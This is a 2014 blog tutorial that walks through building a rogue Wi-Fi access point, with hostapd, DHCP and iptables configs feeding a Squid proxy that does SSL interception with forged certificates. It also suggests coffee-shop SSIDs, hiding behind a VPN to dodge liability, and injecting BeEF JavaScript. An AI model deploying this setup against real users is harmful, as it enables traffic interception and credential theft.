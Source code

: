 ```yaml
---
categories: ["tech", "linux", "security"]
title: How-to setup a rogue access point with a transparent HTTP(s) proxy
description: "How to setup a rogue access point with a transparent HTTP(s) proxy"
keywords: "cloud data amazon S3 fake"
aliases:
  - /blog/2014/01/26/transparent-ssl-proxy-with-squid
comments: true
date: 2014-02-24
---
```

I'm always reading about dangerous rogue access points but never actually have seen one in action. So what better than create a test setup..

Hardware for this test setup will be
* my old linux notebook (a macbook pro) as fake access point
* a small [deal extreme](http://www.dx.com) network card (Ralink 5070 chipset). I've actually bought three differnet wireless cards for under $20 and am trying out the different chipsets. This card is rather small (like an usb stick), so it isn't to conspicous

The basic idea is to use [hostap](http://hostap.epitest.fi/hostapd/) to create a virtual access point. Would I be a hypothetical attacker I'd call it 'starbucks', 'freewave' or name it like some coffee shop around the corner. I'm using the notebook's included wireless card to provide an internet uplink. To achieve this I will have to compile a custom version of squid (including ssl support). I'm using [Ubuntu 13.10](http://www.ubuntu.com) for this, other linux distributions would work the same.

<!-- more -->

## Setup hostap

I'm using the Ubuntu-bundled hostapd 1.0. I've tried to compile the lastest version (2.0) by myself but wasn't able to get it working with my wireless network cards -- the major feature of the 2.0 version would be to support 802.11n (more network bandwidth).

First of all check the network cards (wlan1 in my case) with "iw list", it's output should contain the following lines for creating an virtual access point:

~~~
Supported TX frame types:
     ...
		 * AP
		 * AP/VLAN
     ...
	Supported RX frame types:
     ...
		 * AP: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
		 * AP/VLAN: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
     ...
~~~

I've create a very basic hostapd.conf configuration file:

~~~
interface=wlan1
ssid=TestAP
channel=11
country_code=DE
macaddr_acl=0
auth_algs=1
ieee8021x=0
~~~

And start the access point:

~~~ bash
$ sudo hostapd hostapd.conf 
Configuration file: hostapd.conf
Using interface wlan1 with hwaddr 7c:dd:90:48:7b:94 and ssid 'TestAP'
~~~

## Setup a DHCP server

First of all, give your access point an IP address and enable IP forwarding (as root):

~~~ bash
$ ifconfig wlan1 10.0.0.1
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A POSTROUTING -j MASQUERADE
~~~

Now we should have an almost 'normal' access point, lacking DHCP. To add this I'm using udhcpd (as it is a very small DHCP server):

~~~ bash
 $ sudo apt-get install udhcpd
 $ sudo udhcpd -f udhcpd.conf
~~~

with udhcpd.conf being:

~~~
start   10.0.0.100
end     10.0.0.200

interface wlan1   #default: eth0

#Examles
opt dns 8.8.8.8
option  subnet  255.255.255.0
opt router  10.0.0.1
option  domain  local
option  lease 864000
~~~

Now you've got a "normal" access point, without interception capabilities.

## Setup an anonymous VPN service to protect your identity

You could use (Private Internet Access) to anonymize all outgoing traffic through tunneling all traffic through [OpenVPN](http://www.openvpn.net). Get an account from [PIA](https://www.privateinternetaccess.com/pages/buy-vpn/SNIKT001), download the openvpn example config files and start them (for example) through:

~~~
$ sudo openvpn Switzerland.ovpn
~~~

Now all outgoing traffic is anonymized. This helps if you want to create an open access point but your legislation would make you responsible for all traffic going through your access point.

You can always use this setup to provide people with an internet uplink without being responsible for that.

## Compile and setup squid with SSL support

Download the latest verison of [squid](http://www.squid-cache.org/), this was 3.3.11 for me. Unpack and compile it:

~~~ bash
$ cd squid-3.3.11
$ ./configure --prefix=/usr --localstatedir=/var --libexecdir=${prefix}/lib/squid3 --srcdir=. --datadir=${prefix}/share/squid3 --sysconfdir=/etc/squid3 --with-default-user=proxy --with-logdir=/var/log --with-pidfile=/var/run/squid3.pid --enable-inline --enable-async-io=8 --enable-storeio="ufs,aufs,diskd" --enable-removal-policies="lru,heap" --enable-delay-pools --enable-cache-digests --enable-underscores --enable-icap-client --enable-follow-x-forwarded-for --enable-basic-auth-helpers="LDAP,MSNT,NCSA,PAM,SASL,SMB,YP,DB,POP3,getpwnam,squid_radius_auth,multi-domain-NTLM" --enable-ntlm-auth-helpers=”smb_lm,” --enable-digest-auth-helpers=”ldap,password” --enable-negotiate-auth-helpers=”squid_kerb_auth” --enable-external-acl-helpers=”ip_user,ldap_group,session,unix_group,wbinfo_group” --enable-arp---enable-esi --enable-ssl --enable-zph-qos --enable-wccpv2 --disable-translation --with-logdir=/var/log/squid3  --with-filedescriptors=65536 --with-large-files
$ make
$ make install
~~~

Now you have a 'squid' binary that you can start.

But first modify the default squid config (in ```/etc/squid3/squid.conf```) to automatically generate SSl certificates for incoming requests:

~~~
# access rules
acl SSL_ports port 443
acl Safe_ports port 80		# http
acl Safe_ports port 21		# ftp
acl Safe_ports port 443		# https
acl Safe_ports port 70		# gopher
acl Safe_ports port 210		# wais
acl Safe_ports port 1025-65535	# unregistered ports
acl Safe_ports port 280		# http-mgmt
acl Safe_ports port 488		# gss-http
acl Safe_ports port 591		# filemaker
acl Safe_ports port 777		# multiling http
acl CONNECT method CONNECT

http_access deny !Safe_ports
http_access deny CONNECT !SSL_ports
http_access allow localhost manager
http_access deny manager
http_access allow localnet
http_access allow localhost
http_access deny all

# access config
http_port 3128 transparent

https_port 3127 intercept ssl-bump generate-host-certificates=on dynamic_cert_mem_cache_size=4MB cert=/home/andy/workspace/rogue-ap/myCA.pem
ssl_bump none localhost
ssl_bump server-first all
sslproxy_cert_error allow all
sslcrtd_program /usr/lib/squid3/ssl_crtd -s /var/lib/ssl_db -M 4MB

# refresh patterns
refresh_pattern ^ftp:		1440	20%	10080
refresh_pattern ^gopher:	1440	0%	1440
refresh_pattern -i (/cgi-bin/|\?) 0	0%	0
refresh_pattern (Release|Packages(.gz)*)$      0       20%     2880
refresh_pattern .		0	20%	4320
~~~

You have to create an SSL certificate for the squid proxy:

~~~ bash
$ openssl req -new -newkey rsa:1024 -days 365 -nodes -x509 -keyout myCA.pem -out /home/andy/workspace/rogue-ap/myCA.pem
Generating a 1024 bit RSA private key
.............++++++
...............++++++
writing new private key to 'myCA.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:at
State or Province Name (full name) [Some-State]:vienna
Locality Name (eg, city) []:vienna
Organization Name (eg, company) [Internet Widgits Pty Ltd]:really trusted internet company
Organizational Unit Name (eg, section) []:internet security
Common Name (e.g. server FQDN or YOUR name) []:certified company
Email Address []:
~~~

And start the squid proxy from the command line:

~~~ bash
$ sudo squid -NCd9
~~~

So far there will be no traffic forwarded through your squid proxy, we can change this by using iptables:

~~~ bash
$ sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp -m tcp --dport 80 -j DNAT --to-destination 127.0.0.1:3128
$ sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp -m tcp --dport 443 -j DNAT --to-destination 127.0.0.1:3127
~~~

Each client that connects to an https will get an error message -- and this is good, otherwise this would be a rather unbeatable man-in-the-middle-attack. Already you can use ssldump to read all encrypted traffic between the client and the (roriginally ssl-encryptd) peer site -- if the client is too stupid to ignore the browser's warning message.

## Where to go from here?

So far this is just a normal caching rogue access point, what will be the next steps?

* add icap configuration to squid to actually intercept some some traffic
* selective forward of only some https addresses through the squid proxy -- for example, I believe that many mobile applications will not check the validity of SSL certificates
* add something like [Responder](https://github.com/SpiderLabs/Responder) to add additional capture protocols
* use squid proxy to automatically inject [Beef](http://beefproject.com/) javascript

Suggestions welcome!
